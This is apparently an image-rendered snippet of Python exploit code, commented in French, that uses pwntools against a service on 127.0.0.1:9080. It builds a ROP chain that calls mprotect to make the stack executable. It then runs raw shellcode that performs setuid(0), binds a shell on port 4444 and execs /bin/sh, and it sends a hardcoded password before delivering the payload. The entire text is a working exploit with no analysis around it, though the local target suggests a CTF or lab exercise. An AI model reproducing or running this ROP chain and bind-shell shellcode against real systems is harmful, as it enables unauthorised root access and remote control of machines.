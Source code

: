 ```python
payload += p64(pop_rdi_ret)                                                                                            
payload += p64(stack_base)  # premier argument : adresse mémoire                                                       
payload += p64(pop_rsi_r15_ret)                                                                                        
payload += p64(0x0101010101010101)  # second argument : taille mémoire                                                 
payload += p64(0xdeadbeefdeadbeef)                                                                                     
payload += p64(pop_rax_rdx_rbx_ret)                                                                                    
payload += p64(0xdeadbeefdeadbeef)                                                                                     
payload += p64(7)  #  troisième argument : permissions (RWX)                                                          
payload += p64(0xdeadbeefdeadbeef)                                                                                     
payload += p64(mprotect)                                                                                               
payload += p64(push_rsp_ret)  # on saute sur le shellcode qui suit
payload += (                                                                                                           
    # setuid(0)                                                                                                        
    b"\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"                                                                        
    # bind port 4444                                                                                                   
    b"\x31\xc0\x31\xdb\x31\xd2\xb0\x01\x89\xc6\xfe\xc0\x89\xc7\xb2"                                                    
    b"\x06\xb0\x29\x0f\x05\x93\x48\x31\xc0\x50\x68\x02\x01\x11\x5c"                                                    
    b"\x88\x44\x24\x01\x48\x89\xe6\xb2\x10\x89\xdf\xb0\x31\x0f\x05"                                                    
    b"\xb0\x05\x89\xc6\x89\xdf\xb0\x32\x0f\x05\x31\xd2\x31\xf6\x89"                                                    
    b"\xdf\xb0\x2b\x0f\x05\x89\xc7\x48\x31\xc0\x89\xc6\xb0\x21\x0f"                                                    
    b"\x05\xfe\xc0\x89\xc6\xb0\x21\x0f\x05\xfe\xc0\x89\xc6\xb0\x21"                                                    
    b"\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68"                                                    
    b"\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89"                                                    
    b"\xe6\xb0\x3b\x0f\x05\x50\x5f\xb0\x3c\x0f\x05"                                                                    
)                                                                                                                      
payload += b"\n"                                                                                                       
                                                                                                                       
r = remote("127.0.0.1", 9080)                                                                                          
r.recvuntil(b"To continue, please enter your password:")                                                               
r.send(b"loveandbeauty\n")                                                                                             
r.recvuntil(b"Please enter message to be processed:")                                                                  
r.send(payload)                                                                                                        
```